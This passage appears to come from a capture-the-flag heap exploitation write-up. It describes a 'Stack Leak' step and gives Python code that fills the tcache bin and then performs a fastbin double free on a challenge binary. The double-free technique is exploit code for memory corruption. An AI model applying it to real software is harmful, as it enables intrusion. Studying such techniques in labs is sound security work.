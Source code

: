 ![alt text](image-7.png) 


### Stack Leak 

* For this we will need atleast two `fastbin chunks`, therefore initially allocate total `10 chunks` of size say `0x80`, 7 of them will go in `tcache bin` and rest 3 in `fastbin` 

```python
for i in range(10):
    malloc(i, 0x78, "A"*0x78)

for i in range(8):
    free(i)  

#Performing double free
free(9)
free(8)
free(9)

``` 

